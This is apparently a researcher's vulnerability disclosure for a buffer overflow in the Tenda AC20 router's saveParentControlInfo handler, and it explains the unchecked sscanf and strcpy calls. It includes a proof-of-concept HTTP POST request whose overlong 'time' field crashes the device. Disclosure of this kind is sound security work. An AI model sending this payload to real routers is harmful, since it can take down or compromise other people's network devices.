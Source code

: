 

# CVE-2025-8940

## Submitter：林淦(Lingan) 罗熙(Luoxi)

## Submitter unit：广州大学 (Guangzhou University)

## Information



**Vendor of the products:**   Shenzhen Tenda Technology Co.,Ltd.

**Vendor's website:**https://www.tenda.com.cn/

**Affected products:** AC20

**Affected firmware version:** <= V16.03.08.12 (latest)

**Firmware download address:** [tenda.com.cn/material/show/3264](https://www.tenda.com.cn/material/show/3264)

## Overview

A buffer overflow vulnerability was discovered on the latest version of the Tengda AC20 router, V16.03.08.12, where an attacker sent a well-constructed http post packet to the request path /goform/saveParentControlInfo, triggering a denial of service attack or even RCE, specifically via the function strcpy(s + 2, var); triggered, the reason is because there is no boundary check on var

## Vulnerability details

The prerequisite is that the function is called saveParentControlInfo

![](img/1.png)

Here the two fields are valued deviceId, deviceName, and then the function compare_parentcontrol_time is called, and the time is valued in the function compare_parentcontrol_time, but because of sscanf(s, "%[^-]-%s", v3, v4); Not checking results in a buffer overflow vulnerability

![](img/2.png)

## POC

```
POST /goform/saveParentControlInfo HTTP/1.1
Host: 192.168.102.145
Content-Length: 95
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Accept: */*
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.102.145
Referer: http://192.168.102.145/main.html
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive

deviceName=123&time=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa-b
```

![](img/3.png)



![](img/4.png)